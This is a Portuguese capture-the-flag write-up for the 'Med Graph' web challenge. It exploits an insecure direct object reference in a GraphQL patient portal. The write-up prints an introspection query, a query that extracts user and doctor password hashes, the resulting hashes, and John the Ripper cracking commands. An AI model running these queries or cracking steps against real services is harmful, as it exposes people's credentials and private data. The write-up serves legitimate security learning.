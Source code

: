 # Med Graph

*My startup is launching the next big patient portal, using the hottest new tech! Check it out with our guest account: Demo:TUCTF. We're still in beta, but it's so secure we already have users! Note: This challenge requires no bruteforcing or intense scanning of the application.*

- *Web Exploitation*
- *Autor do writeup: [@jackskelt](https://github.com/jackskelt)*

O desafio consiste em um **Insecure Direct Object Reference** ([**IDOR**](https://cheatsheetseries.owasp.org/cheatsheets/Insecure_Direct_Object_Reference_Prevention_Cheat_Sheet.html)) no GraphQL. Após acessar o site e se autenticar com as credenciais de visitante fornecidos, é possível identificar uma requisição para um endpoint de GraphQL, passando uma query para obter os dados do usuário.

![Histórico de requisições do Burp Suite mostrando a query do GraphQL](assets/website-requests.png)

Podemos então tentar rodar uma query de introspecção para entender um pouco mais do schema do banco de dados. Utilizei essa do [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection#enumerate-database-schema-via-introspection).

{% code title="" overflow="wrap" lineNumbers="true" %}

```js
{__schema{queryType{name}mutationType{name}subscriptionType{name}types{...FullType}directives{name description locations args{...InputValue}}}}fragment FullType on __Type{kind name description fields(includeDeprecated:true){name description args{...InputValue}type{...TypeRef}isDeprecated deprecationReason}inputFields{...InputValue}interfaces{...TypeRef}enumValues(includeDeprecated:true){name description isDeprecated deprecationReason}possibleTypes{...TypeRef}}fragment InputValue on __InputValue{name description type{...TypeRef}defaultValue}fragment TypeRef on __Type{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name}}}}}}}}
```

{% endcode %}

Após rodar a query de introspecção, podemos pegar o resultado e passar no [GraphQL Visualizer](https://nathanrandal.com/graphql-visualizer/) para obter um resultado visual da relação entre as tabelas. Logo podemos perceber que há o campo `password` para o `PacientType` e `DoctorType`.

![Visualização do schema do GraphQL](assets/graphql-erd.svg)

Podemos então tentar mandar uma query com os campos de senha no usuário e doutor.

{% code title="" overflow="wrap" lineNumbers="true" %}

```js
{
    userData {
    id
    password
    doctor {
        name
        password
        }
    }
}
```

{% endcode %}

Como resultado, o servidor nos retorna o hash da senha do usuário atual e do doutor.

{% code title="" overflow="wrap" lineNumbers="true" %}

```js
{
  "data": {
    "userData": {
      "doctor": {
        "name": "Ivy",
        "password": "e0f109f8bae039c7d27ed30f31985052623349cdcabf2024c2f81b01a8ffaf47"
      },
      "id": 1018,
      "password": "492d99acf39eb7d31f03a7ab0326943b13f47d3c16c907b5e7659e3cc9c5b46f"
    }
  }
}
```

{% endcode %}

O hash é um `SHA-256`, podemos utilizar o [`John the Ripper`](https://www.openwall.com/john/) com a wordlist do `rockyou.txt` para achar a senha do doutor.

```bash
echo "e0f109f8bae039c7d27ed30f31985052623349cdcabf2024c2f81b01a8ffaf47" > password.txt
john password.txt -w usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt --format=RAW-SHA256
```

Obtemos que a senha é `madjac`. Assim podemos logar com a conta `Ivy:madjac`, obtendo a flag.

```
TUCTF{w3_7h1nk_1n_6r4ph5}
```

![Dashboard após o login como doutor, assim obtendo a flag](assets/flag.png)